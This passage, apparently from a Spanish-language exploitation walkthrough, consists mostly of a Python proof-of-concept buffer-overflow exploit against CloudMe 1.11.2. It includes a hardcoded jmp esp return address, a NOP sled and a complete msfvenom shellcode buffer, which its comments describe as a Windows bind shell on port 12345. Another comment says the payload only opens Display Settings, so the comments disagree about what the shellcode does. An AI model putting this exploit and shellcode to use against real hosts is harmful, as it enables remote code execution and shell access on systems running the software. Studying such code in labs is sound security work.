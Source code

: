 
A continuación, se copia el **shellcode** generado con `msfvenom` en el siguiente script:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-07-21
# Exploit Author: MTOTH
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x64 (build 1909 and 1809)
# This version has been forked from the original PoC: https://www.exploit-db.com/exploits/46218
#Instructions:
# Start the CloudMe service and run the script.

import socket
import sys
import struct

target = "127.0.0.1"

padding1   = b"A" * 1052
EIP        = struct.pack("<L", 0x68f7a81b) # 0x68f7a81b : jmp esp | {PAGE_EXECUTE_WRITECOPY} [Qt5Core.dll] ASLR: False, Rebase: False, SafeSEH: False
NOP = "\x90" * 20

# The payload provided in this PoC opens the Display Settings.
# msfvenom -a x86 -p windows/shell_bind_tcp LPORT=12345 --smallest -b "\x00\x0a\x0d" -f python  --> final payload size: 224 bytes 
# Generate X86 based payloads!
# Payload size: 258 bytes
# Final size of python file: 1263 bytes

buf =  b""
buf += b"\xba\xfe\x80\x2f\xfa\xd9\xf6\xd9\x74\x24\xf4\x58"
buf += b"\x33\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e\x03\xae"
buf += b"\x8e\xcd\x0f\xb2\x67\x93\xf0\x4a\x78\xf4\x79\xaf"
buf += b"\x49\x34\x1d\xa4\xfa\x84\x55\xe8\xf6\x6f\x3b\x18"
buf += b"\x8c\x02\x94\x2f\x25\xa8\xc2\x1e\xb6\x81\x37\x01"
buf += b"\x34\xd8\x6b\xe1\x05\x13\x7e\xe0\x42\x4e\x73\xb0"
buf += b"\x1b\x04\x26\x24\x2f\x50\xfb\xcf\x63\x74\x7b\x2c"
buf += b"\x33\x77\xaa\xe3\x4f\x2e\x6c\x02\x83\x5a\x25\x1c"
buf += b"\xc0\x67\xff\x97\x32\x13\xfe\x71\x0b\xdc\xad\xbc"
buf += b"\xa3\x2f\xaf\xf9\x04\xd0\xda\xf3\x76\x6d\xdd\xc0"
buf += b"\x05\xa9\x68\xd2\xae\x3a\xca\x3e\x4e\xee\x8d\xb5"
buf += b"\x5c\x5b\xd9\x91\x40\x5a\x0e\xaa\x7d\xd7\xb1\x7c"
buf += b"\xf4\xa3\x95\x58\x5c\x77\xb7\xf9\x38\xd6\xc8\x19"
buf += b"\xe3\x87\x6c\x52\x0e\xd3\x1c\x39\x47\x10\x2d\xc1"
buf += b"\x97\x3e\x26\xb2\xa5\xe1\x9c\x5c\x86\x6a\x3b\x9b"
buf += b"\xe9\x40\xfb\x33\x14\x6b\xfc\x1a\xd3\x3f\xac\x34"
buf += b"\xf2\x3f\x27\xc4\xfb\x95\xe8\x94\x53\x46\x49\x44"
buf += b"\x14\x36\x21\x8e\x9b\x69\x51\xb1\x71\x02\xf8\x48"
buf += b"\x12\x27\xf7\x5c\xec\x5f\x05\x60\xe5\x2c\x80\x86"
buf += b"\x6f\x43\xc5\x11\x18\xfa\x4c\xe9\xb9\x03\x5b\x94"
buf += b"\xfa\x88\x68\x69\xb4\x78\x04\x79\x21\x89\x53\x23"
buf += b"\xe4\x96\x49\x4b\x6a\x04\x16\x8b\xe5\x35\x81\xdc"
buf += b"\xa2\x88\xd8\x88\x5e\xb2\x72\xae\xa2\x22\xbc\x6a"
buf += b"\x79\x97\x43\x73\x0c\xa3\x67\x63\xc8\x2c\x2c\xd7"
buf += b"\x84\x7a\xfa\x81\x62\xd5\x4c\x7b\x3d\x8a\x06\xeb"
buf += b"\xb8\xe0\x98\x6d\xc5\x2c\x6f\x91\x74\x99\x36\xae"
buf += b"\xb9\x4d\xbf\xd7\xa7\xed\x40\x02\x6c\x1d\x0b\x0e"
buf += b"\xc5\xb6\xd2\xdb\x57\xdb\xe4\x36\x9b\xe2\x66\xb2"
buf += b"\x64\x11\x76\xb7\x61\x5d\x30\x24\x18\xce\xd5\x4a"
buf += b"\x8f\xef\xff"

```